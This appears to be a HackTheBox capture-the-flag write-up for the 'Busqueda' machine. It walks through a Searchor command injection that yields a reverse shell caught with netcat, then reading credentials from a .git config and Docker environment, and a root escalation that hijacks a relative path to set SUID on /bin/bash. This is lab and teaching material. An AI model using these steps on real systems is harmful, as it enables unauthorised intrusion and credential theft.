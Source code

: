 ```yaml
---
title: "Busqueda"
date: 2025-06-20
categories:
  - HackTheBox
  - Linux
tags:
  - HackTheBox
  - Linux
---
```


# Busqueda

![](../assets/Pasted%20image%2020250607172201.png)
<!-- more -->

## Enumeration

```shell
$ nmap -A -T4 --min-rate 5000 -p- -n -Pn --open 10.10.11.208
Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-07 17:27 CEST
Nmap scan report for 10.10.11.208
Host is up (0.041s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 4f:e3:a6:67:a2:27:f9:11:8d:c3:0e:d7:73:a0:2c:28 (ECDSA)
|_  256 81:6e:78:76:6b:8a:ea:7d:1b:ab:d4:36:b7:f8:ec:c4 (ED25519)
80/tcp open  http    Apache httpd 2.4.52
|_http-title: Did not follow redirect to http://searcher.htb/
|_http-server-header: Apache/2.4.52 (Ubuntu)
Device type: general purpose|router
Running: Linux 5.X, MikroTik RouterOS 7.X
OS CPE: cpe:/o:linux:linux_kernel:5 cpe:/o:mikrotik:routeros:7 cpe:/o:linux:linux_kernel:5.6.3
OS details: Linux 5.0 - 5.14, MikroTik RouterOS 7.2 - 7.5 (Linux 5.6.3)
Network Distance: 2 hops
Service Info: Host: searcher.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 22/tcp)
HOP RTT      ADDRESS
1   40.61 ms 10.10.14.1
2   40.83 ms 10.10.11.208

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 26.88 seconds
```

Add `searcher.htb` to `/etc/hosts`.

The site is a Flask project using `searchor` `2.4.0`.

![](../assets/Pasted%20image%2020250608160323.png)

Searching a little, we find a POC.

[https://github.com/nexis-nexis/Searchor-2.4.0-POC-Exploit-](https://github.com/nexis-nexis/Searchor-2.4.0-POC-Exploit-)

## Initial Access

So, capture the request with Caido and edit the `search` param.

![](../assets/Pasted%20image%2020250608161312.png)

```shell
$ rlwrap nc -lnvp 7777                        
listening on [any] 7777 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.11.208] 42334
/bin/sh: 0: can't access tty; job control turned off
$ whoami
svc
```

Get the flag

```shell
$ cat user.txt
0d5be9ebe2b24d31d36913f7abe06b8a
```

## Privilege Escalation

Inside the app project's folder there is a `.git` folder, the config file has the `svc` password.

![](../assets/Pasted%20image%2020250607180554.png)

Re-enter via SSH for an easier shell.

```shell
$ ssh svc@10.10.11.208

Welcome to Ubuntu 22.04.2 LTS (GNU/Linux 5.15.0-69-generic x86_64)

...
The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Tue Apr  4 17:02:09 2023 from 10.10.14.19
```

With `sudo -l`:

```shell
svc@busqueda:/opt/scripts$ sudo -l
[sudo] password for svc: 
Matching Defaults entries for svc on busqueda:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User svc may run the following commands on busqueda:
    (root) /usr/bin/python3 /opt/scripts/system-checkup.py *
```

```shell
svc@busqueda:/opt/scripts$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect '{{json .}}' 960873171e2e | jq .
```

```shell
"Env": [
      "USER_UID=115",
      "USER_GID=121",
      "GITEA__database__DB_TYPE=mysql",
      "GITEA__database__HOST=db:3306",
      "GITEA__database__NAME=gitea",
      "GITEA__database__USER=gitea",
      "GITEA__database__PASSWD=yuiu1hoiu4i5ho1uh",
      "PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin",
      "USER=git",
      "GITEA_CUSTOM=/data/gitea"
    ],
```

```shell
"Env": [
      "MYSQL_ROOT_PASSWORD=jI86kGUuj87guWr3RyF",
      "MYSQL_USER=gitea",
      "MYSQL_PASSWORD=yuiu1hoiu4i5ho1uh",
      "MYSQL_DATABASE=gitea",
      "PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin",
      "GOSU_VERSION=1.14",
      "MYSQL_MAJOR=8.0",
      "MYSQL_VERSION=8.0.31-1.el8",
      "MYSQL_SHELL_VERSION=8.0.31-1.el8"
    ],
```

We can try these admin credentials on Gitea.

![](../assets/Pasted%20image%2020250608181134.png)

Looking at the code for `system-checkup.py` we can notice that `full-checkup.sh` is being called without an absolute path.

![](../assets/Pasted%20image%2020250608181826.png)

```shell
svc@busqueda:/tmp$ echo -e '#!/bin/bash\nchmod u+s /bin/bash' > full-checkup.sh && chmod +x full-checkup.sh
svc@busqueda:/tmp$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup

[+] Done!
svc@busqueda:/tmp$ bash -p
bash-5.1# whoami
root
```

## Post Exploitation

Get the flag

```shell
bash-5.1# cat /root/root.txt
59784d838c55bf5fe8089b49bac638d6
```
